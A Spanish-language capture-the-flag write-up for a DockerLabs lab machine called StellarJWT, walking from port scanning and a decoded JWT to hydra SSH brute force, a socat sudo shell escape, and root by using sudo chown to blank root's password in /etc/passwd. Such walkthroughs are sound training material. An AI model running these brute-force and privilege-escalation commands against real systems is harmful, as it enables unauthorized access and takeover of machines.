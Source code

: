 # 📘 Informe Técnico - Máquina: *StellarJWT*

* **Nivel:** Fácil
* **Propósito:** Aprender a identificar y explotar una vulnerabilidad en una aplicación web con autenticación basada en JWT.
* **Objetivo:** Obtener acceso root a la máquina a través de técnicas de enumeración, fuerza bruta y escalada de privilegios.

---

![Logo](Imagenes/Logo.png)

## 🛠️ Despliegue de la Máquina

Primero, descargamos el archivo `.zip` desde DockerLabs. Luego lo descomprimimos con:

```bash
unzip stallarjwt.zip
```

Para desplegar la máquina usamos el siguiente comando:

```bash
sudo bash auto_deploy.sh stellarjwt.tar
```
![Ping a la máquina](Imagenes/Capturas.png)

Verificamos que la máquina esté activa con un `ping`:

```bash
ping -c1 172.17.0.2
```

![Nmap Puertos](Imagenes/Capturas_1.png)

---

## 🔎 Reconocimiento

Escaneo de puertos con `nmap` para descubrir servicios:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```
![Nmap detallado](Imagenes/Capturas_2.png)

Resultado:

* Puerto 22 → SSH
* Puerto 80 → HTTP (servidor web activo)

Usamos mi script personalizado `extractPorts` para filtrar los puertos importantes y luego hacemos un escaneo más detallado de versiones:

```bash
nmap -sCV -p22,80 172.17.0.2
```


![Gobuster resultados](Imagenes/Capturas_4.png)

---

## 🌐 Enumeración Web

Visitamos la página web principal pero no encontramos información útil. Por ello, iniciamos una búsqueda de directorios ocultos (fuzzing) usando `gobuster`:

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

Resultados encontrados:

* `/index.html` → Página principal
* `/universe/` → Imagen

---

## 🖼️ Análisis de Archivos

Accedemos al directorio `/universe/` y encontramos una imagen:

```bash
wget http://172.17.0.2/universe/universe.jpg
```

Analizamos su metadata con `exiftool`:

```bash
exiftool universe.jpg
```

No encontramos nada relevante.

![Exiftool](Imagenes/Capturas_6.png)

---

## 🔑 Detección de JWT

Al revisar el código fuente de la web, notamos una cadena que parece un token JWT. Al investigar el nombre de la máquina (*stellarjwt*), confirmamos que está relacionada con tokens JWT.

![Código fuente](Imagenes/Capturas_7.png)

Usamos el sitio [jwt.io](https://jwt.io/) para decodificar el token y obtenemos el nombre de usuario:

```
Usuario: neptuno
```

![JWT Decode](Imagenes/Capturas_8.png)

---

## 🧠 Ingeniería Social y Fuerza Bruta SSH

La página web pregunta:
**"¿Qué astrónomo alemán descubrió Neptuno?"**
Respuesta: **Johann Gottfried Galle**

Creamos una lista de contraseñas basada en este nombre:

```bash
nano contraseña.txt
```

Verificamos que el archivo no tenga espacios indeseados:

```bash
cat -A contraseña.txt
```

Realizamos fuerza bruta con `hydra`:

```bash
hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t 20
```

Resultado:

```
[22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
```

![Hydra resultado](Imagenes/Capturas_10.png)

---

## 📥 Acceso Inicial (SSH)

Ingresamos al sistema con:

```bash
ssh neptuno@172.17.0.2
```

Revisamos los archivos del sistema y encontramos un archivo `.txt` con una contraseña:

```bash
ls -la
cat nasa.txt
```

Contraseña encontrada: **Eisenhower**

Nos conectamos como el usuario `nasa`:

```bash
su nasa
```

Verificamos privilegios sudo:

```bash
sudo -l
```

Salida:

```text
(elite) NOPASSWD: /usr/bin/socat
```

---

## 🚀 Escalada de Privilegios a usuario *elite*

La línea anterior indica que el usuario `nasa` puede ejecutar `socat` como el usuario `elite` sin necesidad de contraseña.

**`socat` permite crear una shell interactiva si se ejecuta correctamente.**

Ejecutamos:

```bash
sudo -u elite /usr/bin/socat stdin exec:/bin/bash
```

Ahora somos el usuario `elite`.

Verificamos nuevamente permisos sudo:

```bash
sudo -l
```

Salida:

```text
(root) NOPASSWD: /usr/bin/chown
```

---

## 👑 Escalada de Privilegios a *root*

El usuario `elite` puede ejecutar `chown` como root. Esto nos permite cambiar el propietario de archivos críticos del sistema como `/etc/passwd`, que contiene la información de usuarios y contraseñas.

### ⚠️ Riesgo

Modificar `/etc/passwd` incorrectamente puede dejar el sistema inoperativo. Lo hacemos cuidadosamente:

1. Cambiar permisos para que `elite` pueda modificar `/etc/passwd`:

```bash
sudo chown elite:elite /etc/
sudo chown elite:elite /etc/passwd
```

2. Editamos la línea de root para quitarle la contraseña:

```bash
echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd
```

3. Nos convertimos en root:

```bash
su
```

Ahora somos root.

![Escalada final](Imagenes/Capturas_15.png)
![Root acceso](Imagenes/Capturas_16.png)

---

## ✅ Conclusión

* Logramos acceso inicial explotando JWT y usando ingeniería social.
* Accedimos vía SSH con `hydra` y credenciales deducidas.
* Escalamos privilegios a través de `socat` y luego abusamos de `chown` para modificar `/etc/passwd`.
* Acceso *root* obtenido con éxito.
